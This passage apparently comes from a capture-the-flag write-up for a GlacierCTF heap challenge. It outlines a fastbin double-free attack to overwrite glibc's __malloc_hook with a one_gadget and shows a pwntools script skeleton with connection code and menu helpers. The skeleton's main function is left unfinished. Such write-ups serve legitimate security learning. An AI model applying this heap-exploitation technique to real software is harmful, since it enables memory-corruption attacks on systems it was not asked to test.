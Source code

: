 So, to implement this attack, we need to get a pointer to `__malloc_hook`. This can be done by using a [fastbin double free](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/fastbin_dup_into_stack.c), which then overwrites `__malloc_hook` with a suitable `one_gadget`.

The exploit is the following:
```py
#!/usr/bin/env python3

from pwn import *

HOST = "pwn.glacierctf.com"
PORT = 13377

exe = ELF("./old_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = "debug"
context.terminal = ["kitty"]
io = None


def conn(*a, **kw):
    if args.LOCAL:
        return process([exe.path], **kw)
    elif args.GDB:
        return gdb.debug([exe.path], gdbscript="symbol-file old", **kw)
    else:
        return remote(HOST, PORT, **kw)


# Add functions below here, if needed
def add(idx, size):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"idx:", str(idx).encode())
    io.sendlineafter(b"size: ", str(size).encode())


def free(idx):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"idx: ", str(idx).encode())


def change(idx, content):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"idx: ", str(idx).encode())
    io.sendafter(b"contents: ", content)


def view(idx):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"idx: ", str(idx).encode())


def bye():
    io.sendlineafter(b"> ", b"5")


def main():
    global io
    io = conn(level="debug")

    # good luck pwning :)
```